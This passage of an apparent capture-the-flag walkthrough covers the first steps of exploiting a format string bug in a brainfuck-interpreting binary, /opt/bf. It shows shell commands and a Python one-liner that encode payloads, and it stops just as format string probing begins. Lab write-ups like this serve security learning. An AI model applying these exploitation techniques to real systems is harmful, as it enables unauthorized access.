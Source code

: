 ###/opt/bf - part1
To start, I had to recap in the sadly limited knowledge I already have of format string vulnerabilities. Some resources I found useful were:

- [http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html](http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html)
- [http://codearcana.com/posts/2013/04/28/picoctf-videos.html](http://codearcana.com/posts/2013/04/28/picoctf-videos.html)
- [http://youtu.be/NwzmYSlETI8](http://youtu.be/NwzmYSlETI8)
- [http://youtu.be/CHrs30g-3O0](http://youtu.be/CHrs30g-3O0)

So, lets work with this.

First of all, the program will only `printf(buf)` the buffer which is brainfk. This is triggered with a `#`. For us to be able to do anything even remotely related to brainfk, we need to ensure that our payloads are encoded into brainfk before it gets fed to `/opt/bf`. Remembering the research that was done, I opted to print as many `+`'s as the ASCII value of the character I wanted, and them simply increment the data cell with `>`, preparing for the next character.

To test my theory, I prepared my first payload using `python -c`:

```bash brainfk payload encoding (cleaned up)
delacroix@xerxes2:~$ echo $(python -c 'print "+" * ord("a")')
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
delacroix@xerxes2:~$ /opt/bf "+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++#"
a
```

That printed the character `a` as expected. Great! However, we need to be able to print far more character, and multiples too, so lets see if we increment the pointer by 1 will it `printf(buf)` that too?

```bash brainfk payload encoding multiple characters (cleanedup)
delacroix@xerxes2:~$ /opt/bf "+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++>+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++#"
aa
```

2 `a`! Awesome. So the theory works. However, the last thing I was going to do was copy paste all that crap, so instead, lets write some python and use [list comprehension](https://docs.python.org/2/tutorial/datastructures.html#list-comprehensions) to prepare our payloads for `/opt/bf`:

```python final brainfk encoding for /opt/bf
print ">".join(["+" * ord(x) for x in ("the quick brown fox")])
```

You can copy and paste the above command into a python shell and see the amount of `+` there are haha.

Anyways, that settled the brainfk problem.

###/opt/bf - part2
Now that we can easily provide input to `/opt/bf` to print using the vulnerable `printf()` function, it was time to test the actual format string vulnerability. Just like the above mentioned resources (and many many others on the internet) have shown, we provide some `AAAA` and search for them:
